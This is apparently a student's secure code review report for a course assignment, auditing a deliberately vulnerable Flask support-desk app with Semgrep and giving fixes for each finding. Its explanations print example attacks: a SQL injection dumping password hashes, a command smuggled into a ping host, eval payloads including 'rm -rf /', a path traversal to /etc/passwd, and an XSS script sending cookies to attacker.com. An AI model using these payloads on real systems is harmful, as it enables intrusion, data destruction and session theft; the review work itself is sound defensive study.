










# Secure Code Review Report
## Scaler Support Desk Assignment

### Student Information

| Field                     | Details              |
|---------------------------|----------------------|
| Student Name              | Swarnim              |
| Roll Number               | 23bcs10139           |
| Batch / Section           | 2027 |
| Email ID                  | swarnim.23bcs10139@sst.scaler.com    |
| Static Analysis Tool Used | Semgrep              |

---

## Findings Summary

During the secure code review of the Scaler Support Desk application, an extensive analysis was conducted using both automated SAST tools (Semgrep) and deep manual code inspection. A total of 20 findings have been documented.

**True Positives:**
1. SQL Injection
2. OS Command Injection
3. Remote Code Execution (Eval Injection)
4. Path Traversal (Insecure File Download)
5. Insecure Password Hashing (MD5)
6. Stored Cross-Site Scripting (XSS)
7. Broken Access Control (Admin Bypass)
8. Insecure Direct Object Reference (IDOR) - Viewing Tickets
9. Business Logic Flaw (Negative Escalation Cost)
10. Race Condition (TOCTOU in Escalation)
11. Hardcoded Backdoor / Auth Bypass
12. Unrestricted File Upload
13. Security Misconfiguration (Hardcoded Secret Key)
14. Security Misconfiguration (Debug Mode Enabled)
15. Cross-Site Request Forgery (CSRF)
16. In-Memory File Processing Denial of Service (DoS)
17. Missing Rate Limiting (Brute Force)
18. IDOR - Uploading Attachments to Other Tickets

**False Positives:**
19. SQL Injection (in `tickets_by_status`)
20. OS Command Injection (in `ping_internal`)

---

## Detailed Findings

---

### Finding 1

**1. Vulnerability Title:**
SQL Injection

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The `term` parameter from user input is directly concatenated into the SQL query string without sanitization or parameterization, allowing an attacker to manipulate the query.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/models.py`      |
| Function Name              | `search_tickets`                 |
| Vulnerable Line Number(s)  | 117–118                          |

| Field               | Details                                                   |
|---------------------|-----------------------------------------------------------|
| CWE       | CWE-89 — https://cwe.mitre.org/data/definitions/89.html   |
| Severity  | Critical                                                  |

**4. Screenshot of SAST Tool Output:**

> Semgrep Rule: `python.sqlalchemy.security.sqlalchemy-execute-raw-query` — Line 118

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/models.py` — Lines 115–120

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Line 117 builds the SQL query by directly concatenating user input: `sql = "SELECT * FROM tickets WHERE subject LIKE '%" + term + "%'"`. There is no use of parameterized queries or any sanitization.
- **How the vulnerability could be exploited:** An attacker can send a payload like `%' UNION SELECT id, username, password_hash, role, escalation_credits FROM users --` to dump the entire users table, including password hashes.
- **What makes it a True Positive:** User input from `request.args.get("q")` flows directly into `models.search_tickets(term)` which places it verbatim into the SQL string. Semgrep confirmed this at line 118.

**7. Security Impact:**
Confidentiality breach (information disclosure of all user data), potential Authentication Bypass, and full database compromise.

**8. Recommended Remediation:**
Replace string concatenation with a parameterized query:
```python
sql = "SELECT * FROM tickets WHERE subject LIKE ?"
rows = conn.execute(sql, ('%' + term + '%',)).fetchall()
```

**References:**
- OWASP: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: https://cwe.mitre.org/data/definitions/89.html

---

### Finding 2

**1. Vulnerability Title:**
OS Command Injection

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The `host` parameter from `request.args` is appended directly to a shell command executed via `os.popen()` with no input validation.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/app.py`         |
| Function Name              | `ping`                           |
| Vulnerable Line Number(s)  | 190–192                          |

| Field               | Details                                                   |
|---------------------|-----------------------------------------------------------|
| CWE       | CWE-78 — https://cwe.mitre.org/data/definitions/78.html   |
| Severity  | Critical                                                  |

**4. Screenshot of SAST Tool Output:**

> Semgrep Rule: `python.lang.security.dangerous-system-call.dangerous-system-call` — Line 191

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/app.py` — Lines 185–192

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Line 191 executes `os.popen("ping -n 1 " + host).read()` where `host` comes directly from `request.args.get("host")` with zero validation.
- **How the vulnerability could be exploited:** An attacker submits `host=127.0.0.1; cat /etc/passwd` which causes the server to execute both `ping` and `cat /etc/passwd`, returning the file contents.
- **What makes it a True Positive:** There is no `is_valid_ip()` call, no allowlist, and no sanitization before the shell execution. Contrast with Finding 20 (`ping_internal`) which does validate. Semgrep flagged this at line 191.

**7. Security Impact:**
Remote Code Execution (RCE) — full server compromise.

**8. Recommended Remediation:**
Use `subprocess` with a list of arguments to prevent shell injection:
```python
import subprocess
output = subprocess.run(["ping", "-n", "1", host], capture_output=True, text=True, timeout=5).stdout
```

**References:**
- OWASP: https://owasp.org/www-community/attacks/Command_Injection
- CWE-78: https://cwe.mitre.org/data/definitions/78.html

---

### Finding 3

**1. Vulnerability Title:**
Remote Code Execution via `eval()` (Eval Injection)

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The `formula` parameter from the HTTP request is passed without any sanitization directly into Python's `eval()` function, allowing arbitrary code execution.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/app.py`         |
| Function Name              | `sla_score`                      |
| Vulnerable Line Number(s)  | 162–164                          |

| Field               | Details                                                   |
|---------------------|-----------------------------------------------------------|
| CWE       | CWE-95 — https://cwe.mitre.org/data/definitions/95.html   |
| Severity  | Critical                                                  |

**4. Screenshot of SAST Tool Output:**

> Semgrep Rules: `python.flask.security.injection.user-eval.eval-injection` and `python.lang.security.audit.eval-detected.eval-detected` — Line 164

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/app.py` — Lines 157–167

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Line 162 reads `formula = request.args.get("formula", "1+1")` and line 164 calls `score = eval(formula)`. Python's `eval()` executes any valid Python expression, including imports and OS calls.
- **How the vulnerability could be exploited:** An attacker sends `?formula=__import__('os').popen('id').read()` which returns the server's user identity, or `__import__('os').system('rm -rf /')` for destructive attacks.
- **What makes it a True Positive:** User-controlled input flows directly into `eval()` with no sandboxing. Semgrep confirmed with three separate rules flagging line 164.

**7. Security Impact:**
Remote Code Execution (RCE) — full server takeover.

**8. Recommended Remediation:**
Avoid `eval()` entirely. For math expressions, use `ast.literal_eval()` or a safe math library:
```python
import ast
score = ast.literal_eval(formula)  # Only evaluates literals, not function calls
```

**References:**
- OWASP: https://owasp.org/www-community/attacks/Code_Injection
- CWE-95: https://cwe.mitre.org/data/definitions/95.html

---

### Finding 4

**1. Vulnerability Title:**
Path Traversal (Insecure File Download)

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The `filename` path parameter is appended to `ATTACHMENTS_DIR` using simple string concatenation, with no path normalization or boundary check.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/app.py`         |
| Function Name              | `download_attachment`            |
| Vulnerable Line Number(s)  | 115–123                          |

| Field               | Details                                                   |
|---------------------|-----------------------------------------------------------|
| CWE       | CWE-22 — https://cwe.mitre.org/data/definitions/22.html   |
| Severity  | High                                                      |

**4. Screenshot of SAST Tool Output:**
> Identified via Manual Code Review. Semgrep did not flag this finding. This demonstrates the value of manual review beyond automated tools.

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/app.py` — Lines 115–123

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Line 120 builds the path as `target = ATTACHMENTS_DIR + "/" + filename`. Flask's `<path:filename>` route converter allows `/` in the filename, so `../` sequences are accepted and the resulting path is never validated.
- **How the vulnerability could be exploited:** A request to `/tickets/1/attachments/../../../../etc/passwd` causes `target` to resolve to `/etc/passwd`, which is then served by `send_file(target)`.
- **What makes it a True Positive:** Compare with `preview_attachment` (lines 126–134) which correctly uses `resolve_within()` from `utils.py` to enforce boundary checks. `download_attachment` is missing this safeguard entirely.

**7. Security Impact:**
Arbitrary file read — disclosure of `/etc/passwd`, application source code, database files, or secret keys.

**8. Recommended Remediation:**
Use the already-available `resolve_within()` helper (as done in `preview_attachment`):
```python
target = resolve_within(ATTACHMENTS_DIR, filename)
if target is None or not target.exists():
    abort(404)
return send_file(target)
```

**References:**
- OWASP: https://owasp.org/www-community/attacks/Path_Traversal
- CWE-22: https://cwe.mitre.org/data/definitions/22.html

---

### Finding 5

**1. Vulnerability Title:**
Insecure Password Hashing (MD5)

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
`hashlib.md5()` is used to hash passwords. MD5 is cryptographically broken for this purpose — it is fast, unsalted here, and trivially crackable.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/utils.py`       |
| Function Name              | `hash_password`                  |
| Vulnerable Line Number(s)  | 6–7                              |

| Field               | Details                                                    |
|---------------------|------------------------------------------------------------|
| CWE       | CWE-327 — https://cwe.mitre.org/data/definitions/327.html  |
| Severity  | High                                                       |

**4. Screenshot of SAST Tool Output:**

> Semgrep Rule: `python.lang.security.audit.md5-used-as-password.md5-used-as-password` — Line 7

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/utils.py` — Lines 6–7

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Line 7 is `return hashlib.md5(password.encode()).hexdigest()`. MD5 produces a 128-bit hash in nanoseconds and has no salt, making it vulnerable to rainbow table lookups and brute force at billions of hashes per second on modern GPUs.
- **How the vulnerability could be exploited:** If the SQLite database (`supportdesk.db`) is exfiltrated via SQL Injection or Path Traversal, an attacker can crack all password hashes within minutes using tools like Hashcat.
- **What makes it a True Positive:** `hashlib.md5()` is explicitly called in the password hashing function. Semgrep confirmed this at line 7.

**7. Security Impact:**
Mass account takeover following any database breach.

**8. Recommended Remediation:**
Replace with `bcrypt` or `argon2`:
```python
import bcrypt
def hash_password(password):
    return bcrypt.hashpw(password.encode(), bcrypt.gensalt()).decode()
def verify_password(password, password_hash):
    return bcrypt.checkpw(password.encode(), password_hash.encode())
```

**References:**
- OWASP: https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html
- CWE-327: https://cwe.mitre.org/data/definitions/327.html

---

### Finding 6

**1. Vulnerability Title:**
Stored Cross-Site Scripting (XSS)

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The Jinja2 `|safe` filter is applied to user-submitted comment bodies, bypassing the template engine's automatic HTML escaping, allowing scripts stored in the database to execute in victims' browsers.

**3. Source File Information:**

| Field                      | Details                                        |
|----------------------------|------------------------------------------------|
| File Name                  | `supportdesk-app/templates/ticket.html`        |
| Function Name              | N/A (HTML Template)                            |
| Vulnerable Line Number(s)  | 35                                             |

| Field               | Details                                                   |
|---------------------|-----------------------------------------------------------|
| CWE       | CWE-79 — https://cwe.mitre.org/data/definitions/79.html   |
| Severity  | High                                                      |

**4. Screenshot of SAST Tool Output:**
> Identified via Manual Code Review. Semgrep did flag CSRF on ticket.html but not the `|safe` XSS sink. This is a gap in automated detection.

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/templates/ticket.html` — Line 35

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** The template renders comment bodies as `{{ c.body|safe }}`. Jinja2 auto-escaping is active by default, but `|safe` marks the string as trusted HTML, disabling escaping for that value.
- **How the vulnerability could be exploited:** An attacker posts a comment with `<script>fetch('https://attacker.com/?c='+document.cookie)</script>`. This is saved to the database and executed in every subsequent viewer's browser, stealing their session cookies.
- **What makes it a True Positive:** User input is persisted via `models.add_comment()` and rendered unescaped. This is a classic Stored XSS chain.

**7. Security Impact:**
Session hijacking, account takeover, credential theft, and defacement for all users viewing the ticket.

**8. Recommended Remediation:**
Remove the `|safe` filter: change `{{ c.body|safe }}` to `{{ c.body }}`. If rich text is required, sanitize server-side with the Bleach library before storage.

**References:**
- OWASP: https://owasp.org/www-community/attacks/xss/
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

---

### Finding 7

**1. Vulnerability Title:**
Broken Access Control (Admin Bypass)

**2. Classification:**
- **True Positive**
- False Positive

**Justification:**
The `/admin/reports` route only checks if a user is logged in, not whether they have the `admin` role. Any authenticated regular user can access administrative data.

**3. Source File Information:**

| Field                      | Details                          |
|----------------------------|----------------------------------|
| File Name                  | `supportdesk-app/app.py`         |
| Function Name              | `admin_reports`                  |
| Vulnerable Line Number(s)  | 207–213                          |

| Field               | Details                                                    |
|---------------------|------------------------------------------------------------|
| CWE       | CWE-285 — https://cwe.mitre.org/data/definitions/285.html  |
| Severity  | High                                                       |

**4. Screenshot of SAST Tool Output:**
> Identified via Manual Code Review. This is a logic-level flaw that SAST tools generally cannot detect.

**5. Screenshot of Vulnerable Code:**

> File: `supportdesk-app/app.py` — Lines 207–213

**6. Why is it Vulnerable?**
- **Why the code is vulnerable:** Lines 208–211 check `if not user: return redirect(...)` but never check `user["role"] == "admin"`. The session stores `role` (line 59: `session["role"] = user["role"]`) but it is never used in this route.
- **How the vulnerability could be exploited:** User `alice` (role: `user`) can browse directly to `/admin/reports` and see all tickets from all users via `models.all_tickets()`.
- **What makes it a True Positive:** The role-based authorization check is completely absent. The database schema has a `role` field, and `carol` is the only `admin`, confirming the intent was to restrict access.

**7. Security Impact:**
Privilege escalation — any user gains read access to all support tickets across all users.

**8. Recommended Remediation:**
Add a role check immediately after the login check:
```python
if not user or user["role"] != "admin":
    abort(403)
```

**References:**
- OWASP: https://owasp.org/www-project-top-ten/2021/A01_2021-Broken_Access_Control
- CWE-285: https://cwe.mitre.org/data/definitions/285.html

---

